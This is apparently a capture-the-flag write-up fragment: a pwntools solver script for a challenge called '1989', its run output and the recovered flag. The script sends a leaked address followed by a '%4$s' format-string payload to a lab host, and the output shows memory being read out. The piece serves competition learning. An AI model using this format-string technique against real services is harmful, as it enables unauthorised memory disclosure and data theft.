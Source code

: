 ```python
from pwn import *
import struct

r = remote('10.1.1.10', 13030)

r.recvuntil('flag    | [')
addr = r.recvuntil(']')[:-1].decode()

payload = struct.pack('<I', int(addr, 16))
payload += b'%4$s\n'

r.send(payload)
r.recvuntil('\n')
r.recvuntil('\n')
r.recvuntil('\n')
print(r.recvuntil('\n'))
```

Output:

```
$ python3 1989_solver.py 
[+] Opening connection to 10.1.1.10 on port 13030: Done
b'Ready > Your Inpur : `\xf0WVflag{Homenum_Revelio_1989}\n'
[*] Closed connection to 10.1.1.10 port 13030
```

Flag: `flag{Homenum_Revelio_1989}`
